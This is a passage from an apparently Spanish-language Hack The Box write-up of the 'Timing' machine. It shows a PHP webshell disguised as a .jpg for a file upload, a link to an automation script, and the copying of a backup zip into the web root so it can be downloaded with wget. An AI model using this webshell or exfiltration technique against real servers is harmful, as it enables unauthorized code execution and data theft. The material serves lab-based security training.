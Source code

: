 Vamos a crear un archivo con código php pero vamos a cambiar la extensión a jpg para poder subirlo.

```console
p3ntest1ng:~$ vi pwned.jpg
<?php system($_GET[pwn]);?>
```

En este punto vamos a crear un script en python que nos automatice todo el proceso anterior,
además de la subida del archivo de forma que sólo tengamos que ejecutarlo y pasarle una imagen maliciosa (que en realidad contiene PHP).

Os dejo el enlace al script [AutoPwn_Timing.py](https://github.com/WildZarek/wildzarek.github.io/blob/master/scripts/python/autopwn_timing.py)

![Autopwn](/assets/images/hackthebox/machines/timing/autopwn.png)

Lo ideal ahora sería entablar una conexión inversa a nuestra máquina que nos otorgue una shell completa, ya que estamos operando sobre una webshell.
Pero como vemos en la captura anterior, esto no es posible dado que no tenemos permisos para ejecutar **`bash`** o **`nc`**

Algo que podemos hacer es tratar de listar algunos archivos que pueda haber en el sistema, para ahorraros tiempo, vamos a listar todos los archivos **`zip`**

```console
~$ find / -type f -iname *.zip 2>/dev/null
/opt/source-files-backup.zip
```

Encontramos un archivo backup, por lo tanto vamos a tratar de copiarlo a un directorio accesible, por ejemplo dentro de **`/var/www/html`** que es la ruta donde está corriendo la web.

```console
~$ cp /opt/source-files-backup.zip .
```

Ahora podemos descargar este archivo en nuestra máquina con **`wget`**

```console
p3ntest1ng:~$ wget http://timing.htb/source-files-backup.zip
--2022-05-23 01:55:27--  http://timing.htb/source-files-backup.zip
Resolviendo timing.htb (timing.htb)... 10.10.11.135
Conectando con timing.htb (timing.htb)[10.10.11.135]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 627851 (613K) [application/zip]
Grabando a: «source-files-backup.zip»

source-files-backup.zip     100%[===================>] 613,14K   721KB/s    en 0,9s    

2022-05-23 01:55:29 (721 KB/s) - «source-files-backup.zip» guardado [627851/627851]
p3ntest1ng:~$ md5sum source-files-backup.zip
7fd8d13ab49b661b4d484f809a217810  source-files-backup.zip
```
